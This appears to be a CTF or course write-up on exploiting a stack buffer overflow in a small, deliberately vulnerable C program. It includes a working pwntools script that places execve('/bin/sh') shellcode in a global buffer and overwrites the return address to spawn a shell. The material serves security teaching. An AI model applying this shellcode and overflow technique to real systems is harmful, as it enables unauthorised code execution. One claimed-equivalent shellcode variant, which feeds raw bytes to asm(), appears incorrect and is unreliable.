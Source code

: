 ```yaml
---
title: Simple Buffer Overflow - 0x04
tags: [CTF, PWN, NTUSTISC]

category: "Security > Course > NTU CS > PWN"
---
```


# Simple Buffer Overflow - 0x04
###### tags: `CTF` `PWN`

## Original Code
```clike!
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char message[48];

int main()
{
    char name[16];
    printf("Give me your message: ");
    fflush(stdout);
    read(0, message, 0x30);
    fflush(stdout);
    read(0, name, 0x30);
    return 0;
}
```
* Actually, this is a variant of the [lecture 0x01](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/HJm5x_Ocs)
* <font color="F0000">Note that</font>, the global variable has its own address, instead of local variable that push to stack that we don't know at first.
* The 1st `read` function has no overflow, but 2nd `read` function has.

* Note that, if you establish the code yourself, you must turn off the protection by the command below and use `checksec` to observe the protection
    ```bash!
    gcc -o bof3 bof3.c -zexecstack -no-pie -fno-stack-protector -z norelro
    ```
* <font color="FF0000">Note that</font>:
must use `mprotect` to change permission access just like [lecture 0x04](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/HJhgXGKci), add these line in original code
    ```c!
    #include <sys/mman.h>
    mprotect(0x403000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC);
    ```
    **Before `mprotect` - `vmmap`**
    ![](https://imgur.com/yQ8PeWN.png)
    **After `mprotect` - `vmmap`**
    ![](https://imgur.com/moSdC0R.png)

## Exploit
* The main idea of this problem is write down your shellcode in `message` global variable and use `BOF` of 2nd `read` function to overlap `%rip`
* First, observe the address of global variable - `message` → `4033c0`
![](https://imgur.com/dTVBnkK.png)
* So, we have to construct our shellcode in [lecture 0x02](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/BJRfEWFcs)
    ```python!
    from pwn import *

    r = process('./bof3')
    raw_input()

    # First, we must set our infrastructure of the platform
    context.arch = 'amd64'  # x86-64 → amd64, x86-32 → i386

    # asm function transfer your shellcode to machine language
    shellcode = asm('''
    mov    rbx, 0x68732f6e69622f
    push   rbx
    mov    rdi, rsp
    xor    rsi, rsi
    xor    rdx, rdx
    mov    rax, 0x3b
    syscall
    ''')

    r.send(shellcode)   # Send to 1st read function

    payload = b'a' * 0x18 + p64(0x4033c0)

    r.send(payload) # Send to 2nd read function that has bof
    r.interactive()
    ```

    * Note that, the 3 methods below are equal
        
        ```python!
        shellcode = asm('''
        mov    rbx, 0x68732f6e69622f
        push   rbx
        mov    rdi, rsp
        xor    rsi, rsi
        xor    rdx, rdx
        mov    rax, 0x3b
        syscall
        ''')
        ```
        
        * Made by [Online x86 / x64 Assembler and Disassembler](https://defuse.ca/online-x86-assembler.htm#disassembly)
        ```python!
        shellcode = asm('\x48\xBB\x2F\x62\x69\x6E\x2F\x73\x68\x00\x53\x48\x89\xE7\x48\x31\xF6\x48\x31\xD2\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05')
        ```
            
        * Made by `pwntools` built-in function
        ```python!
        shellcode = asm(shellcraft.sh())
        ```
* Then we got shell!!!
    ![](https://imgur.com/fQ9X9e6.png)